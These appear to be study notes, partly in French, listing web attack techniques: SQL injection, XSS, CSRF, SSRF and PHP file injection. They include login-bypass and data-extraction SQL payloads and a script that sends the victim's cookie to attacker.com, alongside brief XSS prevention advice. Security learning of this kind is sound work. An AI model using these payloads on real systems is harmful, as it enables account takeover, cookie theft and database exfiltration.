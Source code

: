 *Goals:* Récupérations d'informations sensibles de la base de données

Basic Login hacking:
```sql
-- test 1
' OR 1=1; -- -
--  test 2
1' || 1=1 # -
-- test 3
... ORDER BY 1, 2, 3, 4, 5, 6, ... 10, 15
```

Extract data to file and read it:
```sql
SELECT ... INTO OUTFILE ;
SELECT LOAD_FILE ...;
information_schema.schemata, information_schema.columns, ...
VERSION(), USER()
```

### Cross-site scripting

- Reflected cross site scripting (using legitimate server with malicious requests from malicious link)
- Stored cross site scripting (stored in application : blog post, ...)
- DOM based cross site scripting (javascript from page sent from user browser)

How to prevent:

- sanitize inputs (disable scripts, etc.)
- encode outputs (replace special chars)
-- HTML: Convert &to &amp; ; <to &lt; ; >to &gt; ;  " to &quot; ; ' to &#x27; ;  / to &#x2F;


### Cross-Site Request Forgery (CSRF)

*Goals:* Récupérer la session d'un site externe via envoi d'un formulaire non HTTPS

```html
document.write('<img src="http://attacker.com:8080/cookie?' + document.cookie + '"/>');
<form action="..."><input type="hidden"/>...</form><script>document.forms[0].submit();</script>

```

### Server-Side Request Forgery (SSRF)

*Goals:* Utilisation d'un formulaire d'envoi d'image pour scanner le serveur

Outil: BurpSuite + Intruder:
```bash
http://ip.locale:port
```

### File Injection

*Goals:* Utiliser la fonction d'import de fichier pour injecter du code interprétable.
```bash
# 1. Code PHP en fin de fichier PNG
# 2. Bulletproof JPEGs (code php présent même après réduction de l'image)
# 3. 
curl --user-agent='<?php phpinfo();?>'
```

